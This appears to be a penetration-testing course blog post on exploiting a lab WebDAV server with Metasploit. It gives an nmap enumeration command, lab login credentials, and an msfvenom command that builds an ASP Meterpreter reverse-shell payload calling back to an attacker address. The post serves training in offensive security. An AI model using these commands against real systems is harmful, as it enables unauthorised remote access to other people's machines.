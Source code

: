 ```yaml
---
layout: post
title: "Exploiting WebDAV With Metasploit"
date: "2022-09-11"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - System/Host Based Attacks
---
```


# Exploiting WebDAV With Metasploit
## Demo: Exploiting WebDAV With Metasploit
```
Target IP Address: 10.2.30.233
```

```
nmap -sV -p 80 --script=http-enum 10.2.30.233
```

```
10.2.30.233/webdav

bob
password_123321
```

How we can obtain a meterpreter session or reverse shell on the target system with Metasploit.

Generating the ASP payload ourselves with msfvenom.

Msfvenom is a tool that allows you to generate payload that provide you with reverse shell and remote access to the target system. In this case we are going to obtain a Meterpreter session which is advanced reverse shell that allows us to perform additional functionality like upload files, download files from the target, etc.

In order to generate the ASP payload: 

`-p`: payload, using `windows/meterpreter/reverse_tcp`, this is a staged payload.

`LHOST`: provide our IP address. `ifconfig`. The IP the payload is going to connect to when it is executed.

`LPORT`: The port the payload is going to connect to.

`-f`: file format.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f asp > shell.asp
```

